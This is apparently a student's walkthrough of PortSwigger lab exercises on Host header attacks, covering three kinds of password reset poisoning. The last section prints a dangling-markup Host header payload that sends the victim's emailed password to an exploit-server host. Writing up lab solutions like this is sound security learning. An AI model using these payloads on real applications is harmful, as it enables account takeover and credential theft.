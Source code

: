 # Host header attacks

- https://portswigger.net/web-security/host-header
- https://portswigger.net/web-security/host-header/exploiting#how-to-test-for-vulnerabilities-using-the-http-host-header
- https://portswigger.net/web-security/host-header/exploiting

## Basic password reset poisoning

The application uses the `Host` header for forgot-password link with token generation, which is sent to the client.

By trying to reset our password, intercepting the request and changing the `Host` header we can notice, that the the link points to our provided domain.

To solve the lab issue password change request for `carlos`, intercept the request and change `Host` header to the Explot server domain. Then from logs read the password reset token and use it to reset password for `carlos`.

## Password reset poisoning via middleware

This time changing the `Host` header results in 421 response `Invalid host`, so the header must be used for internal redirections or be whitelisted.

Adding `X-Forwarded-Host` headed with our malicious value results in this value being used in generation of reset password link in the email. 

The application uses `Host` value for link generation, but it is also used for internal routing. Not disabled `X-Forwarded-Host` header allowed us to overwrite its value without obstructing the routing.

To solve the lab issue password change request for `carlos`, intercept the request and add `X-Forwarded-Host` header to Explot server domain. Then from logs read the password reset token and use it to reset password for `carlos`.

## Password reset poisoning via dangling markup

This time `Host` header overrites do not work, but apllying the arbitrary port `aaa` to the `Host` header reviels that it is not being used nor validated and is reflected in the received email.

```
Host: 0a5900ae0435584887f31bcc003e00b9.web-security-academy.net:aaa
```

Applying `'"<>{}[]a/\'\"\` as port in order to check for html encoding, which is not present and allows us to inject html.

Since we see in the email that the anti-virus is scanning the email, we can suspect that it will access all the link present in the body.

By issuing the password change request for `carlos` with `Host` header value provided below, we are able to execute successful dangling markup attack and create the the link containg the body email part containing the password. Then we can read the password from the Exploit server Access logs, since the anti virus accessed it automaticaly.

```
Host: 0a5900ae0435584887f31bcc003e00b9.web-security-academy.net:'>ClickMe</a><a href="https://exploit-0a13007704ab58b687331a8701a00079.exploit-server.net?q=
```

Similar attack could be made using `img` tag, that would log for us the password once the victim open the email.
